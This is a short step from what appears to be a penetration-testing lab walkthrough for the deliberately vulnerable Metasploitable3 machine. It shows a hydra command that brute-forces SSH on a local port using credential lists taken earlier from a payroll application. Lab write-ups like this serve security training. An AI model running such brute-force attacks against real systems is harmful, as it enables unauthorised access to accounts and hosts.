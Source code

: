 # SSH Bruteforce with HYDRA

1. After extracting credentials from the Payroll Application, use the credentials to run a bruteforce attack.

```
hydra -L user.txt -P pass.txt ssh://127.0.0.1:2222
```
![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/ssh-bruteforce/SSH_Bruteforce.png "Result 1")
